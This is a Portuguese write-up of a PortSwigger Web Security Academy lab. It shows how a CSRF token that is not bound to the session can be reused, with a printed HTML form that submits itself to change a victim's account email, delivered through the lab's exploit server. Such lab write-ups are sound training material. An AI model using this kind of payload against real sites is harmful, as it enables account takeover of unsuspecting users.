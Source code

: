 Nesse Laboratório também encontramos um token `csrf` que é usado para verificar se a requisição é válida e a alteração dele faz com que a requisição seja rejeitada pelo back-end.

Porém o token não está vinculado a sessão do usuário, e por isso, podemos copiar o token `csrf` e enviar para o back-end através de um script:

```html

    <form method="POST" action="https://0a45009e042868f9c07cffe700da0036.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="sonaelneto@user.net">
        <input type="hidden" name="csrf" value="6SQVETjONvYVNvq7DMNgxWc9N9AuN6LU">
    </form>
    <script>
        document.forms[0].submit();
    </script>

```

O script acima cria um formulário com o método **"POST"** e a url de destino **"/my-account/change-email"**, e dentro do formulário, temos dois campos de `input` com o `type="hidden"` para que o campo não seja exibido na tela, o `name="email"` seguindo o padrão da requisição que o `Burp Suite` interceptou, e o `value="sonaelneto@user.net"` com o email que queremos alterar, e o `name="csrf"` com o token `csrf` que copiamos da requisição interceptada.

Na tag `<script>`, temos um código que faz com que o formulário seja enviado automaticamente.

Agora, basta colocar esse script no `exploit server` que o laboratório disponibiliza:

![server](user_server.png)

E clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.

![concluido](user_concluido.png)

---